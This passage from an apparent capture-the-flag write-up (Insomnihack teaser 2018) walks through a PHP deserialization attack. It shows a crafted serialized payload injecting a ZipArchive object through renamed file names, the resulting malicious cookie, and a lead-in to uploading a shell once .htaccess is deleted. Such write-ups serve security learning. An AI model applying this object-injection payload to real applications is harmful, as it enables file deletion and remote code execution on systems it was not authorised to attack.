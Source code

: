 We now have all the ingredients. Let's **rename** our second
`VaultFile->fakename`. Back to our python script :

```php
# We end the first object with a dummy parameter, then start the second object
# with our ZipArchive
serialized_injection = '";s:1:"e";s:0:"";}i:1;O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"'

rename(1, serialized_injection)
```

Let's now **rename** our first `VaultFile->fakename` :
```python
newname = "../" * 115 # To overwrite fakename #2
rename(0, newname)
```

In the end, we'll receive the following **cookie** :
```php
a:2:{i:0;O:9:"VaultFile":2:{s:8:"fakename";s:345:"./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}i:1;O:9:"VaultFile":2:{s:8:"fakename";s:245:"";s:1:"e";s:0:"";}i:2;O:10:"ZipArchive":7:{s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";}}6f72e63954ac6e08c3ebc6e4abdff60956a82d9ebc556873410c9ef456098b69
```

Proceed to **uploading** a **shell** (which won't be executed as the **.htaccess** file
has **not been deleted yet**):

![before_shell](/assets/img/insomnihack-teaser-2018/before_shell.png)

